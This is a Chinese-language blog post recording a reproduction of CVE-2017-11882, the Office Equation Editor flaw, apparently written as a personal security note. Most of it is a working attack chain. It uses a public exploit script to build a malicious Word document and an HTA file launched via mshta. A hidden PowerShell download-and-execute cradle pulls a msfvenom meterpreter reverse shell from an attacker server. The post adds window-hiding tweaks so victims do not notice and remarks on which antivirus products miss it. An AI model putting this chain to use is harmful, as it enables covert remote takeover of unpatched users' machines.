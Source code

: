 ```yaml
---
title: CVE-2017-11882 复现
date: 2017-11-21 18:40:29
tags: [vul,sec,office]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

上周微软更新日，修复了`CVE-2017-11882`这个漏洞，根据官方描述该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。漏洞位置是出现在一个公式编辑器上，叫做`EQNEDT32.EXE`，在win10上的路径是`C:\Program Files\Common Files\microsoft shared\EQUATION\EQNEDT32.EXE`，可以在编辑文档的时候插入公式。

最近有利用脚本出来了，也是自己尝试复现了几次，在此简单记录一下

下载`https://github.com/Ridter/CVE-2017-11882/`利用脚本，该脚本是[@Evi1cg](https://evi1cg.me/archives/CVE_2017_11882_exp.html)改造后的脚本，经过测试效果还是不错的

生成一个测试文档的话执行
`python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
`
打开test.doc就会弹出计算器，而且全程没有提示或警告之类的弹窗，可以算是完美利用，比之前[不带宏的代码执行](https://kylingit.com/blog/msword-code-exec-without-macro/)要简单粗暴

注意一点的是命令部分长度不能超过43bytes

#### 反弹shell
下面主要讲一下反弹shell的利用

用mshta方式执行代码：
在vps上建立一个文件`test`，内容为
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```
关键是修改`objShell.Run`后面的部分

我们通过调用powershell下载一个反弹脚本然后执行的方式来获得shell：

修改`objShell.Run`为

`objShell.Run powershell.exe -WindowStyle Hidden -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://ip/reverse.ps1');reverse.ps1"`

其中`reverse.ps1`通过`msfvenom`生成:

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >reverse.ps1`

msf开启监听，然后生成word文档：
`python Command_CVE-2017-11882.py -c "mshta http://ip/test" -o test.doc`

打开之后就会收到shell

![test](https://ob5vt1k7f.qnssl.com/5TU1y)
![session 1](https://ob5vt1k7f.qnssl.com/KM1My)
但是这样会有一个问题，打开word文档的时候会发现有一个黑框一闪而过，而我们已经指定powershell以`-WindowStyle Hidden`的方式运行了，那怎么绕过这个黑框呢？

查一下[文档](https://msdn.microsoft.com/en-us/library/d5fk67ky\(en-us,VS.85\).aspx)
可以看到`Run`命令是可以通过`intWindowStyle`参数来控制窗口风格的，有0-10这几种风格
![Run Method](https://ob5vt1k7f.qnssl.com/q0F4b)
所以我们在执行的命令后面加一个参数，用来控制mshta运行的窗口大小，使之最好隐藏窗口运行
![0](https://ob5vt1k7f.qnssl.com/ccxgV)
经过测试0和2参数都是可以的，达到隐藏窗口执行，用户察觉不了，其它参数可以自己试一下

![session 3](https://ob5vt1k7f.qnssl.com/qJKq7)

目前这样生成的文档在火绒和360杀毒的最新版上是没有报毒，但是各大杀软已经更新了规则，凡是远程调用执行cmd或者ps或者regsvr32等都会触发报警，暂时没有好的方法绕过，毕竟是监控着底层的那几个文件的。
![av](https://ob5vt1k7f.qnssl.com/fzUuw)

参考：

https://evi1cg.me/archives/CVE_2017_11882_exp.html

http://www.freebuf.com/vuls/154462.html

<script>pangu.spacingPage();</script>






